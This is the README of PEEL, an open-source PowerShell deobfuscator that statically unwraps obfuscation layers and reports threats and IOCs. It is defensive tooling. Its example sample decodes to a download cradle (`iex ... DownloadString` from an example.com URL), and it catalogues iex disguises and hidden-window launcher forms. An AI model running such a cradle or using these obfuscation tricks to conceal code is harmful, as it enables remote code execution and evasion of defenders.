










<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="public/peel-logo-horizontal-dark-1600.png">
    
  </picture>
</p>

<p align="center">
  <b>Peel the obfuscation off PowerShell, right in your browser.</b><br>
  Open source · MIT · free forever · your code never leaves your device
</p>

<p align="center">
  <a href="README.tr.md">Türkçe</a> ·
  <a href="#quick-start">Quick start</a> ·
  <a href="#example">Example</a> ·
  <a href="#features">Features</a> ·
  <a href="#the-static-evaluator">Evaluator</a> ·
  <a href="#command-line">CLI</a> ·
  <a href="#how-it-works">How it works</a> ·
  <a href="#benchmark">Benchmark</a>
</p>

<p align="center">
  
</p>

---

## What is PEEL?

PEEL is a PowerShell deobfuscator. Paste an obfuscated `.ps1`, a `powershell -enc ...` command line or a `cmd /c` launcher, press
**Peel** (`Ctrl + Enter`), and you get readable code back, plus a report of what the script does. It is built for the scripts people
actually run into: droppers and download cradles, AMSI bypasses, persistence scripts, reverse shells and the output of
[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) (TOKEN, STRING, ENCODING, COMPRESSION and LAUNCHER).

Most PowerShell obfuscation hides the real script behind `Invoke-Expression`: a string built from fragments, `-f` format strings,
reversed text, `[char]` codes, XOR, base64, Deflate/GZip streams or a SecureString, handed to an `iex` that is itself spelled
`$ShellId[1]+$ShellId[13]+'x'` or `$env:ComSpec[4,15,25]-join''`, often inside `powershell -w hidden -enc ...`. Replacing `iex` with
`Write-Output` by hand works for one layer, then breaks on the next one. PEEL does it properly:

- **It never runs the script.** PEEL parses PowerShell into a syntax tree and computes constant values with its own static
  evaluator: strings, numbers, arrays, casts, `-f`/`-join`/`-split`/`-replace`/`-bxor`, `[Convert]`, `[Text.Encoding]`, `[char]`,
  raw Deflate and GZip, `ConvertTo-SecureString -Key`. Anything else (commands, network, files, the registry, unknown methods) is
  left exactly as it is.
- **It unwraps every layer it can prove.** `iex 'CODE'`, `'CODE' | iex`, `.(iex-in-disguise)`, `[ScriptBlock]::Create`,
  `$ExecutionContext.InvokeCommand.InvokeScript`, `powershell -EncodedCommand`, `cmd /c`, `set X=... && powershell ... $env:X`
  and `echo ... | powershell -` are replaced by the code they would run, round after round, until nothing changes.
- **It checks its own changes.** After every pass the code is parsed again; a pass that leaves more unparseable statements behind
  than it found is rolled back. Behaviour on Windows PowerShell is measured separately (see [Tests](#tests) and
  [Benchmark](#benchmark)).
- **It tells you what the script does.** The report shows the obfuscator and techniques it detected, the layers it opened (with the
  launcher flags), network/command/file calls in the decoded code, IOCs (URLs, IPs, domains, download cradles, AMSI bypasses,
  persistence traces, Discord webhooks, Telegram bots), a threat score with evidence and a readability score before and after.
- **It stays on your machine.** There is no server, no telemetry and no upload. The status bar counts every external request the
  page makes, so you can check this yourself.

One button runs everything. There are no settings you have to understand first.

## Quick start

You need Node.js 22.13 or newer (the CLI isolates the decoder with Node's permission model).

```bash
git clone https://github.com/LLCForge/Peel-PS.git
cd Peel-PS
npm install
npm run dev
```

Open <http://localhost:5173>. Paste code, drop a `.ps1`, `.psm1`, `.psd1` or `.txt` file onto the page, or click **Try the sample**,
then press **Peel**. UTF-16 files with a byte order mark are read correctly.

To build a static site you can host anywhere:

```bash
npm run build
```

The `dist/` folder is the whole app (about 200 KB of gzipped JavaScript plus a 154 KB decoder worker), including a `_headers` file
with the worker CSP for Netlify and Cloudflare Pages. It also works offline as a PWA after the first visit.

## Screenshots

<table>
  <tr>
    <td width="50%"><br><sub><b>Start screen.</b> Paste, drop a file or a folder, or try the sample.</sub></td>
    <td width="50%"><br><sub><b>Input.</b> A CodeMirror editor with PowerShell highlighting, folding and a minimap.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Report.</b> Summary, threat score, Invoke-Obfuscation and the techniques it used, layers, IOCs.</sub></td>
    <td><br><sub><b>Timeline.</b> Scrub through the code after every pass and round.</sub></td>
  </tr>
  <tr>
    <td><br><sub><b>Diff.</b> What changed between the input and the output.</sub></td>
    <td><br><sub><b>Log.</b> Every pass, every rollback and every layer that was opened.</sub></td>
  </tr>
</table>

<p align="center">
  <br>
  <sub>The interface also works on a phone.</sub>
</p>

The input in these screenshots is the built-in sample, in the style of Invoke-Obfuscation's COMPRESSION and TOKEN output: a raw
Deflate + base64 layer read through `IO.StreamReader`, an `iex` built from `$ShellId`, random case everywhere. The payload prints a
greeting through a command name assembled with `-f`, and passes `(New-Object Net.WebClient).DownloadString('https://example.com/...')`
to `iex`. Nothing is downloaded and nothing runs; the download only shows up in the report, which flags it as critical, because a
download cradle piped into `iex` is exactly what a dropper looks like. That is the point of the demo. The log lines are written by
the pipeline in Turkish in both languages.

## Example

The built-in sample ([`src/sample.js`](src/sample.js)), 491 bytes on one line:

```powershell
# Peel-PS örnek girdisi
.( $sHelLiD[1]+$sHelLiD[13]+'x') (nEw-ObJecT iO.sTrEamReAdeR((nEw-ObJecT iO.cOmPreSsIon.dEflAtEstReAm([iO.mEmOryStReaM][cOnvErT]::fRomBaSe64sTriNg('JczNCoJAFIbhvVfxFdEo…'),[iO.cOmPreSsIon.cOmpReSsiOnModE]::dEcoMpResS)),[tExt.eNcoDiNg]::aSciI)).rEadToEnd()
```

`node bin/peel-ps.js sample.ps1 --lang en` prints the decoded code to stdout and the summary to stderr:

```powershell
# Peel-PS örnek girdisi
$u = 'https://example.com/kurulum.ps1'
function Selam { Write-Host 'Merhaba, Peel-PS!' }
Selam
if ($false) { Write-Output asla }
iex (New-Object Net.WebClient).DownloadString($u)
```

```text
[critical 80/100] Obfuscator: Invoke-Obfuscation (90%). Techniques: Deflate/GZip compression layer, base64 layer,
Invoke-Expression layer chain, -f format-string assembly and variable/command indirection (Get-Variable, Set-Variable, ${..},
&(...)). 1 code layer(s) (iex / -EncodedCommand / cmd) were unwrapped and the code went from 491 to 203 bytes; readability
29 → 96/100. Threat level critical (80/100): Remote download and execute (download cradle + iex). The decoded code contains 1
network, 0 command and 0 file call(s); none were executed. IOCs: 1 download cradle(s).
```

The compressed layer sits where `iex` was called, `& ("{1}{0}" -f 'ost', 'Write-H')` became `Write-Host`, the casing is canonical
again and `if (1 -gt 2)` was folded to `if ($false)`. The branch itself stays: PEEL does not remove dead code (see
[limits](#honest-limits)). The `iex ... DownloadString($u)` line is kept as it is, because what it would run depends on the
download; the report resolves `$u` and lists `https://example.com/kurulum.ps1` as the network target.

## Features

### Obfuscation families

| Family | What PEEL undoes |
|---|---|
| TOKEN | backticks in names (`` W`r`iTe-H`oSt ``, escape letters are respected), random case, string concatenation, `-f` reordering of commands, arguments, members (`.("{1}{0}" -f ...).Invoke(...)`) and types (`New-Object ("{0}{1}" -f ...)`), `${braced}` variables, `Get-Variable`/`gv`/`Get-Item variable:`/`Set-Variable`/`sv` indirection, splatting with constant hashtables, `&(...)` and `.(...)` command names |
| STRING | concatenation, `-f` reordering, reversal (`$s[-1..-($s.Length)]`, `[regex]::Matches(..., 'RightToLeft')`, `[Array]::Reverse`), `-join`/`-split`, `[char]` arrays and casts, `.Replace` chains, `-replace`/`-creplace`, `[string]::Join`/`Concat`/`Format` |
| ENCODING | ASCII, hex, octal and binary char codes (`[Convert]::ToInt16($_, 16)`), BXOR, SecureString (`ConvertTo-SecureString -Key`, `PtrToStringAuto`, `PSCredential`), special-characters-only code (`${;}=+$();...` with `"$(@{})"` and `"".Insert`), base64 with every .NET text encoding |
| COMPRESSION | `IO.Compression.DeflateStream` and `GZipStream` over `[Convert]::FromBase64String`, read with `StreamReader.ReadToEnd`, `CopyTo` + `MemoryStream.ToArray` or `GetString` |
| LAUNCHER | `powershell`/`pwsh` with `-EncodedCommand` (every accepted abbreviation), `-Command` and positional commands, `cmd /c`, `%COMSPEC% /b /c start /b /min ...`, `set VAR=... && powershell ... $env:VAR`, `echo ... \| powershell -`, nested launchers inside a script |

`iex` is recognised in every disguise Invoke-Obfuscation uses: `$ShellId[1]+$ShellId[13]+'x'`, `$PSHome[4]+$PSHome[30]+'x'`,
`$PSHome[21]+$PSHome[30]+'x'`, `$env:ComSpec[4,15,25]-join''`, `$env:Public[13]+$env:Public[5]+'x'`,
`$VerbosePreference.ToString()[1,3]+'x'-join''`, `(gv '*mdr*').Name[3,11,2]-join''`, `(Get-Command *ke-E*n)` and the special-character
form. It is unwrapped as `iex 'CODE'`, `'CODE' | iex`, `'EXPR' | iex | iex`, `Invoke-Expression -Command`,
`$ExecutionContext.InvokeCommand.InvokeScript`, `. ([ScriptBlock]::Create('CODE'))` (inlined) and `& ([ScriptBlock]::Create('CODE'))`
(becomes `& { CODE }`).

**Compiled scripts are identified, not decoded.** PS2EXE executables and other PE binaries are recognised by the traces they leave in
plain text. PEEL only unwraps PowerShell script text; it never runs native code.

### Passes

Six passes run in this order, in rounds, until nothing changes (at most 64 rounds). Each one is a small module in
[`src/passes/`](src/passes).

| Pass | |
|---|---|
| `launcher` | Replaces `powershell -enc` / `-Command`, `cmd /c` and `start` lines with the PowerShell they carry. A whole-file launcher becomes the code itself; a launcher inside a larger script becomes `& { CODE }` (a child process is a separate scope). Records the launcher flags. |
| `ticks` | Removes backticks that do not escape anything. `` `0 `a `b `e `f `n `r `t `u `v `` are escapes even inside names and stay; single-quoted strings are untouched; inside `${...}` a backtick is only removed in drive-qualified names (`${e`Nv:ComSpec}`), because in `${a`b}` it is part of the name. |
| `layers` | Replaces `iex` sites, `InvokeScript`, dot-sourced script blocks and `'...' \| iex` pipelines with the code they run, when that code is a constant the evaluator can compute and it parses. In a value context (`$x = iex '...'`) a single pipeline is inlined and longer code becomes `$( ... )`. |
| `fold` | Replaces the largest side-effect-free expressions with their values: `("{1}{0}" -f 'ost','Write-H')` → `'Write-Host'`, decoders → the decoded string, `[ScriptBlock]::Create('...')` → `{ ... }`, `[Type]('Net.'+'WebClient')` → `[Net.WebClient]`. Byte arrays, char arrays and huge results are not written out. |
| `names` | Resolves computed command, member and type names, `.Invoke(...)` on computed members, `${braced}` variables, `Get-Variable`/`Set-Variable`/`Get-Item variable:` indirection and single-use constant splats. |
| `unused` | Removes top-level assignments whose value was computed statically and that nothing reads any more, together with statements that only touch those variables (`[Array]::Reverse($c)`, `$z.CopyTo($out)`, `++$i`); chains are resolved backwards. Skipped when names can be read indirectly (an unresolved `iex`, dot-sourcing, a wildcard `Get-Variable`). |

### Engine

- **Parser.** A PowerShell parser with source positions for every node, written for this project: command and expression
  modes, all string forms (single, double with `$(...)` expansion, here-strings, smart quotes), `${...}` variables, type literals
  and casts, operator precedence (`-f` binds tighter than `*`, unary `-join` tighter than `,`), keywords, functions, `param`, `class`.
  A statement it cannot parse becomes a raw node and is kept byte for byte.
- **Variable flow.** Top-level statements are walked in order; each read of a variable gets the value it has at that point
  (reassignments, `+=`, `++`, `Set-Variable`, `[Array]::Reverse` and stream `CopyTo`/`Write` are followed). Inside functions,
  loops and script blocks a variable is used only if it is assigned exactly once, at top level, before the block. Automatic variables
  (`$ShellId`, `$PSHome`, `$env:ComSpec`, `$VerbosePreference`, `MaximumDriveCount` ...) get their Windows PowerShell 5.1 values when
  the script does not assign them.
- **Formatting.** Canonical casing for known cmdlets (the full Windows PowerShell 5.1 core set), aliases, parameters, .NET types and
  members, lower-case operators and keywords, consistent casing of script variables, one statement per line and indentation. The
  formatted code is kept only if its strings, comments and case-folded code are identical to the unformatted code.
- **Limits.** A time and step budget per file (30 s in the app and CLI), at most 256 opened layers, 16 MB of input, 32 MB per string,
  a million array elements, 64 MB per decompressed stream; regular expressions with nested quantifiers are not evaluated. When a
  budget runs out, the result so far is returned and marked as partial.

### Analysis report

- Detected obfuscator (Invoke-Obfuscation, with its marks as evidence) and techniques, with confidence and evidence
- Unwrapped layers with kind (`encodedcommand`, `command`, `cmd`, `stdin`, `iex`, `invokescript`, `dot-source`), size and launcher flags
- Threat score and classes: remote download and execute, file downloader, AMSI bypass, defence evasion (Defender, logging, ETW,
  hidden window), persistence (Run key, scheduled task, service, WMI subscription, Startup folder), credential theft, reverse shell,
  in-memory loading and injection, privilege escalation (UAC bypass, RunAs), destructive action, cryptocurrency miner, system
  reconnaissance, data exfiltration
- Behaviour found in the decoded code: network calls with their targets (variables are resolved), commands, file operations, other
  calls (`Add-Type`, `[Reflection.Assembly]::Load`)
- IOCs: URLs, domains, IPs, emails, Discord webhooks, Telegram bot tokens and chat ids, paste/raw download hosts, download cradles,
  AMSI bypass snippets, persistence traces; platform and documentation domains are listed separately as benign
- Metrics: size and readability (0-100) before and after, layers, rounds, rollbacks
- Turkish and English; JSON export (and a plain-text version in the CLI)

### Interface

- CodeMirror editors with PowerShell highlighting, folding, minimap, search, bookmarks and line notes
- Multiple tabs and tab groups; open a file or a whole folder, or drop them onto the page; peel every file in a group
- Sessions saved on the device (IndexedDB), JSON session import and export
- Code, report, timeline and diff views; reading mode, focus mode, synchronised scrolling
- Command palette and configurable shortcuts
- Dark, light, high-contrast and system themes; deuteranopia, protanopia and tritanopia friendly colours
- Turkish and English
- Mobile layout, keyboard navigation, screen-reader labels and live regions, skip link
- Works offline as a PWA after the first visit (production build)

## The static evaluator

[`src/core/eval.js`](src/core/eval.js) computes values for a side-effect-free subset of PowerShell and nothing else:

- **Values:** strings, numbers, booleans, `$null`, `[char]`, arrays, `byte[]`, hashtables, enum values, method groups.
- **Operators:** `+ - * / %`, `-f` (composite formatting with alignment and `X`/`D` specifiers), `-join`, `-split`, `-replace`
  / `-creplace` (.NET replacement syntax), `-band -bor -bxor -shl -shr`, ranges, comparisons, `-like`, `-contains`, `-in`, `-as`,
  indexing with negative indices and index arrays, member enumeration.
- **Casts:** `[string] [char] [int] [byte] [char[]] [byte[]] [int[]] [string[]] [type] [scriptblock] [regex] [IO.MemoryStream]` and
  friends, with .NET rounding.
- **Static members:** `[Convert]` (`FromBase64String`, `ToBase64String`, `ToInt16/32/64/Byte(x, base)`, `ToChar`, `ToString`),
  `[string]` (`Join`, `Concat`, `Format`, `new`), `[char]`, `[Text.Encoding]` (UTF8, ASCII, Unicode, BigEndianUnicode, UTF32,
  Default, `GetEncoding`), `[regex]` (`Matches` with `RightToLeft`, `Replace`, `Split`, `Escape`, `Unescape`),
  `[Runtime.InteropServices.Marshal]` (SecureString to BSTR to string), `[ScriptBlock]::Create`, `[Environment]::GetEnvironmentVariable`
  for the known variables.
- **Objects:** `IO.MemoryStream`, `IO.Compression.DeflateStream`, `GZipStream`, `IO.StreamReader`, text encodings, SecureString,
  `PSCredential`, regex matches.
- **Commands (pure only):** `ForEach-Object`/`%`, `Where-Object`/`?`, `Out-String`, `Write-Output`, `Select-Object -First/-Last/-Skip`,
  `Sort-Object`, `ConvertTo-SecureString -Key` (AES-CBC, implemented in JavaScript so it works in the browser), `New-Object` for the
  objects above, `Get-Variable`, `Get-Item` / `Get-ChildItem` for `variable:` and `env:`, `Get-Command` with wildcards.

Everything else throws "not static" and the expression stays as written. `-match` is not evaluated (it writes `$Matches`), and a
multi-character `.Split('ab')` is not evaluated because Windows PowerShell and PowerShell 7 disagree on what it means.

## Command line

The CLI uses the same engine. In Node the decoder runs in a child process started with `node --permission`, behind a watchdog.

```bash
node bin/peel-ps.js obfuscated.ps1 -o clean.ps1 --report report.json
cat obfuscated.ps1 | node bin/peel-ps.js - > clean.ps1
node bin/peel-ps.js samples/ --out-dir out --report out/report.json
node bin/peel-ps.js dropper.ps1 -r text --lang en
node bin/peel-ps.js dropper.ps1 --json --fail-on high
```

Install it globally with `npm link` and use `peel-ps` instead of `node bin/peel-ps.js`.

| Option | |
|---|---|
| `-o, --out <file>` | write the decoded code to a file (single input; stdout otherwise) |
| `-d, --out-dir <dir>` | write decoded files to a directory (a directory input keeps its structure) |
| `-r, --report <target>` | `json` or `text` print the report to stdout instead of the code; any other value is a file path (`.txt` gives text, anything else JSON; an array for a directory input) |
| `--json` | same as `--report json` |
| `--only <pass,...>` | run only these passes (`launcher`, `ticks`, `layers`, `fold`, `names`, `unused`) |
| `--no-format` | do not format the output |
| `--timeout <s>` | time budget per file (default 30) |
| `--lang tr\|en` | report language (default `tr`) |
| `--fail-on <level>` | exit with code 4 when the threat level reaches `low`, `medium`, `high` or `critical` (for CI) |
